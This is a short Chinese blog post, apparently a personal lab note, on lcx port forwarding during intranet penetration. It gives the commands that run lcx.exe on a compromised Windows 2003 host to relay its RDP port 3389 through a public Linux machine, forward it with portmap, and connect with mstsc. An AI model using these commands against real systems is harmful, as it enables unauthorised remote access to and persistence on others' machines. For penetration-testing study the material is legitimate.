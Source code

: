 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
    - 内网渗透
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

   ### 实验环境
    * win2003  （肉鸡）
    * 公网linux  （转发机器）
    * 本机   （攻击机）

   ### 过程记录


    * 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
    `lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
    >将本机的3389端口转发到45.77.43.77的2222端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

    * 在公网的linux机器上执行命令<br>
    `./portmap -m 2 -p1 2222 -p2 55`
    >监听本地的2222端口，并将其数据转发到55端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

    * 在本机使用mstsc连接45.77.43.77的55端口

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

   ### 连接成功

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

    ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)


